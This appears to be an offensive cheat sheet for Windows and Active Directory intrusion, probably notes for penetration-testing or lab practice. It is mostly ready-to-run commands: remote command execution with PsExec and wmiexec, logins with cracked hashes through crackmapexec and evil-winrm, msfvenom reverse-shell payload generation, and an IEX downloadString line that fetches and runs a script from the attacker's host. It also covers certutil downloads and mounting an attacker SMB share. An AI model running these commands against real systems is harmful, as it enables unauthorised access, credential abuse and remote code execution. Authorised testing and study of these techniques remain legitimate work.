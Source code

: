 ```

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd

```

#### Note: consider group policy password grabs and cracks GPPDecrypt / Powerup / Empire
#### Note: Clock skew too great error ;
```
date -s <new:time:required>
```

#### login with crackmapexec
```
crackmapexec smb $IP -u owned_user -p cracked_hash --shares
```

#### login with evil-winrm (from nmap all ports -p 5985)

```
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
evil-winrm -u owned_user -p cracked_hash -i $IP
```

## login with wmiexec.py
```
python3 wmiexec.py box.local/administrator:password@$IP
```

#### add attack machine to local DNS
```
sudo python3 dnstool.py -u box.local\username -p password -r webdanko.box.local -a add -t A -d $IP_attacker $IP_victim
```

#### get standard revshell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=443 -f exe -o reverse.exe # stageless
msfvenom -p windows/x64/reverse_tcp LHOST=$IP LPORT=443 -f exe -o reverse.exe # staged
```

- transfer options
    - python -m SimpleHTTPServer + certutil -urlcache -split -f
    - upload via evil-winrm
    - impacket-smbserver sharename $(pwd) -smb2support -user me -password mypass
    - IEX(New-Object Net.WebClient).downloadString('http://$myIP/filetograb.ps1')

#### on target machine powershell
```
$pass = convertto-securestring 'df' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('df',$pass)
New-PSDrive -Name 'm' -PSProvider FileSystem -Credential $cred -Root \\$MyIP\Sharename
```
